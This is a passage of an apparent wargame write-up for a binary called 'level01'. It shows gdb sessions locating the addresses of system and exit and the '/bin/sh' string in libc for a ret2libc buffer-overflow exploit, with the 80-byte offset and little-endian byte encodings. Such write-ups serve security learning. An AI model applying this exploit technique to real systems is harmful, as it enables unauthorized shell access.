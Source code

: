 ### `0x37634136` is the `80th byte`, we have our offset !

## 2. Find the address of the `system` function

```sh
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb)
```

### `system` : `0xf7e6aed0` (`\xd0\xae\xe6\xf7` for the little-endian)

## 3. Find the address of the `exit` function

```sh
(gdb) print exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb)
```

### `exit` : `0xf7e5eb70` (`\x70\xeb\xe5\xf7` for the little-endian)

## 4. Find the address of the string `/bin/sh`

```sh
(gdb) info proc map
process 1711
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level01/level01
	 0x8049000  0x804a000     0x1000        0x0 /home/users/level01/level01
	 0x804a000  0x804b000     0x1000     0x1000 /home/users/level01/level01
	0xf7e2b000 0xf7e2c000     0x1000        0x0
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0
	0xf7fd8000 0xf7fdb000     0x3000        0x0
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
(gdb) 
```
